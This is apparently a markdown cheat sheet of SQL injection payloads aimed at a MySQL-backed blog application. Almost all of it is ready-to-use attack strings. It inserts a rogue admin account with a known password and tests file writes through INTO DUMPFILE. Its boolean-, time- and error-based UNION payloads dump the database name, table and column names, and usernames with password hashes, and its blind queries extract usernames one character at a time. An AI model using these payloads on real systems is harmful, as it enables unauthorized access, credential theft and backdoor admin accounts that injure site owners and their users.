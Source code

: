 # CRUD Operations

1. Create rogue admin: `INSERT INTO users (username, password, is_admin) VALUES ('rogue_admin', MD5("RoguePass123"), TRUE);`

2. Delete rogue admin: `DELETE FROM users WHERE username = 'rogue_admin';`

# Filesystem operations

1. View the current user: `SELECT current_user;`
   
2. Check for the `secure_file_priv` setting: `SHOW VARIABLES LIKE 'secure_file_priv';`

3. Trying to create a file: `SELECT 'test123' INTO DUMPFILE '/var/lib/mysql-files/test.txt';`

# SQL Queries

1. Boolean-based: `' OR (SELECT SUBSTRING(username, 1, 1) FROM users WHERE username = 'blogpage_admin') = 'a' %23`

2. Time-based: `' OR IF(SUBSTRING((SELECT username FROM users WHERE username = 'blogpage_admin'), 1, 1) = 'b', SLEEP(1), 0) %23`

3. Error-based: `' union select null, null, null, null, null %23`

# Exploit(error-based)

1. Retrieve user: `' UNION SELECT NULL, user(), NULL, NULL, NULL %23`

2. Retrieve database name: `' UNION SELECT NULL, database(), NULL, NULL, NULL %23`

3. Retrieve tables names: `' UNION SELECT NULL, table_name, NULL, NULL, NULL from information_schema.tables %23`

4. Dumping columns from users table: ` UNION SELECT NULL, column_name, NULL, NULL, NULL from information_schema.columns where table_name = "users" %23`

5. Dumping users table: `' UNION SELECT NULL, username, password, NULL, NULL from users %23`

# Exploit(blind)

1. Extracting users with a boolean-based vulnerability: `' OR (SELECT SUBSTRING(username, 1, 1) FROM users order by id limit 0,1) = 'a' %23`

2. Extracting users with a time-based vulnerability: `' OR IF(SUBSTRING((SELECT username FROM users order by id limit 0,1), 1, 1) = 'b', SLEEP(1), 0) %23`
